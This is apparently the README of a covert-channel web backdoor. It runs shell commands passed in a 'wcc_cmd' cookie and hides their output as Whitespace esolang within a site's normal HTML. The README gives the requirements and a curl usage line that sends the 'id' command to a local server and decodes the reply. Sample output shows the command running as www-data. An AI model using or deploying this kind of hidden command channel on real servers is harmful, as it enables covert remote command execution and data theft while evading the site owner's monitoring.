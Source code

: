 # Whitespace Covert Channel

Executes shell commands and returns output in Whitespace Esolang over original HTML.

## Requirements
* A decent shell (zsh/bash)
* Curl
* Whitespace Interpreter (used original haskell linux binary from http://compsoc.dur.ac.uk/whitespace/download.php)
* PHP inflate tool (in this folder)

## Usage
    curl -s -H 'Cookie: wcc_cmd=id' http://127.0.0.1/wcc/ -o temp.ws && ./wspace temp.ws | head -n -3 | php inflate.php

## Output
    = WCC = Command output ==========================
    
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    
    = WCC = EOF =====================================
